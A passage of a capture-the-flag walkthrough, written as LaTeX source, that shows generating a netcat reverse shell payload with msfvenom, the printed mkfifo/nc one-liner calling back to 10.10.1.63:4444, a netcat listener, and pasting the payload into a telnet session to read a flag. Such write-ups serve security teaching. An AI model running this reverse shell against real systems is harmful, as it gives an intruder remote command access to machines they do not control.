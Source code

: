 \documentclass[12pt]{article}
\theoremstyle{definition}
\theoremstyle{definition}
\newtheorem{exmp}{Example}[section]
\begin{document}
\begin{exmp}
            machine, the one which we have tcpdump listening for ping requests.
            Doing this, we see that we do in fact receive the ping! This tells us
            that we are able to execute system commands and reach our local
            machine. \par With this ability, we are going to try and generate
            a reverse shell payload using msfvenom. \textbf{MsfVenom} is a payload
            generator. It will generate and encode a netcat reverse shell for us.
            The syntax will be:\par \textbf{msfvenom -p cmd/unix/reverse\_netcat
            lhost=[local eth0 ip] lport=4444 R}.\par Here the \textbf{-p=payload},
            \textbf{lhost=your machine's IP}, \textbf{lport=the port to listen to},
            and \textbf{R=export the payload in raw format}.\par Note that this
            command will be run on your local machine. Doing so we get the
            following generated payload:
            \begin{equation*}
                \begin{split}
                \text{\textbf{mkfifo /tmp/ykjn; nc 10.10.1.63 4444 0$<$/tmp/ykjn
                $|$ /bin/sh $>$}}\\ \text{\textbf{/tmp/ykjn 2$>$\&1; rm /tmp/ykjn}}
                \end{split}
            \end{equation*}
            Now we start a netcat listener on our machine by using the
            command:\par\textbf{nc -lvp 4444}. Finally, we just need to copy
            and paste our payload into the telnet session! \par After doing
            that, we are notified on our machine that the connection was
            received. And we can now have a shell from their machine on our
            machine. Doing a simple \textbf{ls} reveals the .txt file which
            contains our flag.  
        \end{exmp}
\end{document}
